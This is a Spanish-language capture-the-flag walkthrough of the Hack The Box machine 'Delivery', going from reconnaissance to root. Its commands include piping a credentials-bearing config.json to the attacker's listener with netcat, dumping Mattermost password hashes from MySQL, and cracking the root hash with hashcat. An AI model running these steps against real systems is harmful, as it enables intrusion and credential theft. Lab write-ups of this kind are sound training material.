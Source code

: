 ## Summary

- IP -> 10.10.10.222
- Ports -> TCP (22, 80, 8065), UDP (idk)
- OS ->  Linux Debian Buster
- Services & Applications
    -  22 ->  OpenSSH 7.9p1 Debian
    -  80 ->  http nginx 1.14.2
    -  8065 -> http webpage Mattermost

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Miramos la pagina web para ver que podemos encontrar
- **/etc/hosts** -> delivery.htb 10.10.10.222
Ctrl + u en la pagina web y miramos el codigo fuente
- **/etc/hosts** -> helpdesk.delivery.htb 10.10.10.222 Agregamos el subdominio

- Comando -> **gobuster vhost -u http://delivery.htb -t 200 -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt** Para descubrir mas subdominios en la ruta de la pagian web y encontramos helpdesk.delivery.htb
El cual nos pones a ingresar datos en las opciones y asi vamos descubriendo cosas. 
Lo interesante es que el correo que creamos en la pagina user@delivery.htb lo podemos usar para checar la consulta con el numero que nos dan y asi poder entrar a la pagina. 

Buscamos en Google que es (Mattermost) y es un servicio de chat en linea de codigo abierto y autohospedable con intercambio de archivos, busqueda e integraciones. 

En la pagina de mattermost podemos usar el correo temporal de la pagina helpdesk 4444@delivery.htb para poder usarlo y crearnos una cuenta en mattermost y cuando nos llegue el correo de verificacion poderlo ver en la pagina del helpdesk. Una vez verificada la cuenta ya podriamos ingresar a Mattermost. 
Una vez dentro de la pagina nos dan un usuario y password qur lo usaremos para conectarnos por ssh.

## User
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh y podemos mirar la flag de user.txt

-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 

- Comando -> **find / -name mattermost 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre
- Comando -> **ps -faux | grep -i mattermost** Buscaremos la palabra mattermost de forma insensitive a nivel de procesos y encontramos una ruta la cual es **/opt/mattermost/bin/mattermost** en la cual solo usaremos esta parte **/opt/mattermost** e ingresamos a ese dir
Miramos lo que hay ahi adentro y encontramos un dir **config** en el cual miramos un config.json 

- Comando -> **nc -nlvp 443 | jq** Lo que recibamos por netcat lo convertimos en json para verlo mejor 
- Comando -> **cat config.json | nc 10.10.14.17 443** Enviamos el archivo encontrado a nuestra maquina de atacante para verlo mejor
Encontramos un usuario y una pasword las cuales usaremos para podernos conectar a la base de datos 

Nos conectamos a la base de datos de esta manera 
- Comando -> **mysql -u < user> -p** Nos conectamos y le proporcionamos la password encontrada en el archivo anterior
- **>show databases;**
- **>use mattermost;**
- **>show tables;** 
- **>describe Users;**
- **>select Username,Password from Users;**  Ahi encontraremos el usuario root y un hash 

Usamos la grafica de windows para hacer variantes de la password **PleaseSubscribe!** que es una palabra que encontramos en una conversacion en la pagina web de la maquina victima, en el cual estaremos usando en Windows **\\hashcat-6.2.6\\rules**. Ahi usaremos el **best64.rule** el cual nos ayudara a tener variantes de esa palabra

- Comando -> **hashcat.exe --stdout -r rules/best64.rule pwd.txt > passwords**  Podemos hacer y mostrar variantes de la password almacenada en ese archivo pwd.txt que contiene la palabra PleaseSubscribe! y despues de hacer las variantes nos podemos crear un diccionario llamado passwords, el cual podemos usar para crackear el hash.
- Comando -> **hashcat.exe -m 3200 -a 0 hash passwords** Con la misma herramienta crackearemos el hash pasandole el hash encontrado en la base de datos y el diccionario que acabamos de crear y nos da la password de root.

## Root

- Comando -> **su root** 
Colocamos la password que acabamos de descubrir e ingresamos como el usuario root. Ahora solo queda buscar la flag root.txt